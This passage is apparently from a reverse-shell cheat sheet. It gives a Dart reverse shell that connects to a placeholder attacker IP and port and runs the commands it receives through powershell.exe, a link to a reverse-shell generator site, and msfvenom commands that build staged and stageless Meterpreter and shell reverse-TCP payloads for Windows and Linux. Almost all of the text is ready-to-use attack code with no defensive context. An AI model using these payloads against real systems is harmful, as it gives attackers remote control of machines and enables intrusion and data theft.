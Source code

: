 #### Dart

```java
import 'dart:io';
import 'dart:convert';

main() {
  Socket.connect("$ATTACKER_IP", $ATTACKER_PORT).then((socket) {
    socket.listen((data) {
      Process.start('powershell.exe', []).then((Process process) {
        process.stdin.writeln(new String.fromCharCodes(data).trim());
        process.stdout
          .transform(utf8.decoder)
          .listen((output) { socket.write(output); });
      });
    },
    onDone: () {
      socket.destroy();
    });
  });
}
```

### RevShells

https://www.revshells.com/
![image](https://user-images.githubusercontent.com/44453666/115149832-d6a75980-a033-11eb-9c50-56d4ea8ca57c.png)


### Meterpreter Shell

#### Windows Staged reverse TCP

```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f exe > reverse.exe
```

#### Windows Stageless reverse TCP

```powershell
msfvenom -p windows/shell_reverse_tcp LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f exe > reverse.exe
```

#### Linux Staged reverse TCP

```powershell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f elf >reverse.elf
```

#### Linux Stageless reverse TCP

```powershell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f elf >reverse.elf
```
